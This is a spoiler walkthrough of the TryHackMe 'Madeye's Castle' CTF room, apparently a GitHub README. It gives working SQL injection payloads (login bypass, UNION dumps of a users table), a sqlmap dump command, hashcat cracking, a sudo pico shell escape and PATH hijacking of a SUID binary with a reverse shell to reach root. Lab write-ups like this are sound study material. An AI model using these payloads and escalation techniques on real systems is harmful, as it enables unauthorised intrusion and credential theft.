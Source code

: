 # Madeye's Castle CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Madeye's Castle** CTF challenge on [TryHackMe](https://tryhackme.com/room/madeyescastle). 
---

we see 4 open ports 22, 80 , 139 and 445 

![scn](imgs/scn.png "scn")

first looking at port 80, we see hidden comment suggesting `hogwartz-castle.thm` adding to /etc/hosts

![cm](imgs/cm.png "cm")

on the page we see login page

![log](imgs/log.png "log")

we can use this payload to get SQLi 

```
admin' or 1=1 -- -
```

we got note 

![sql1](imgs/sql1.png "sql1")

```
The password for Lucas Washington is incorrect! contact administrator. Congrats on SQL injection... keep digging
```

after using enum4linux we found a samba share: sambashare

![sm](imgs/sm.png "sm")

we found 2 files `.notes.txt` and `spellnames.txt`

![sm2](imgs/sm2.png "sm2")

![f](imgs/f.png "f")

going back to login we can use sqlmap to further test for sqli 

```
sqlmap -u 'http://hogwartz-castle.thm/login' --random-agent --method POST --data 'user=test&password=pass' -p user --dump --level=5 --risk=3
```

![mp](imgs/mp.png "mp")

we know about SQLite dbms, we can also add --tables to command to find table `users`

![mp2](imgs/mp2.png "mp2")

we can test with unions

![b1](imgs/b1.png "b1")

we can use this payload to find the names of columns in table users (name, password, admin, notes )

```
user=' UNION SELECT sql, NULL, NULL,null FROM sqlite_master WHERE type='table' AND name='users'-- -&password=TEST
```

![b2](imgs/b2.png "b2")

by using this command we can dump whole column 

```
user=' UNION SELECT 1, 2, 2,group_concat(name) FROM users -- -&password=TEST
```

![b3](imgs/b3.png "b3")

if we dump notes column we see a comment: `My linux username is my first name, and password uses best64`

![b4](imgs/b4.png "b4")

now after extracting names and passwords we can use hashcat with the rule best64

```
hashcat -a 0 -m 1700 hash.txt spellnames.txt -r /usr/share/hashcat/rules/best64.rule 
```

we found password for harry 

![hc](imgs/hc.png "hc")

we got access as harry and got user flag

![u1](imgs/u1.png "u1")

by looking at sudo -l output we can use this command to gain shell as hermonine

![sudol](imgs/sudol.png "sudol")

```
sudo -u hermonine /usr/bin/pico
```

![gtfo](imgs/gtfo.png "gtfo")

inside the editor we use: 

```
Ctrl + R
Ctrl + X
reset; sh 1>&0 2>&0
```

![pic](imgs/pic.png "pic")

we gained the shell and flag

![u2](imgs/u2.png "u2")

we found SUID file `/srv/time-turner/swagger`, it is some number guessing game

![suid](imgs/suid.png "suid")

![sc](imgs/sc.png "sc")

i created the private key and added do hermonine authorized keys to log via ssh to gain stable access

after analysing the file we see that file uses uname and uses function rand()

![strings](imgs/strings.png "strings")

![gh](imgs/gh.png "gh")

![gh2](imgs/gh2.png "gh2")

if we use this command we see that the "random" number is exactly the same in all cases, the rand() function is not safe

```
for i in {1..5};do echo 1 | /srv/time-turner/swagger ; done
```

![test](imgs/test.png "test")

we can create our own version of uname command containing reverse shell 

```
$ cd /tmp
$ nano uname
$ chmod 777 uname
$ export PATH=/tmp:$PATH
```

![un](imgs/un.png "un")

then we can run this command

```
echo 0 | /srv/time-turner/swagger | awk '{print $5}' | tail -1 | /srv/time-turner/swagger
```

The command works by first running the swagger program with input 0, capturing its output, extracting the fifth word (which is the randomly generated number), and then running swagger again—this time feeding it the extracted number as input to correctly guess the random value.

![ex](imgs/ex.png "ex")

now we have root access and root flag

![root](imgs/root.png "root")

# MACHINE PWNED
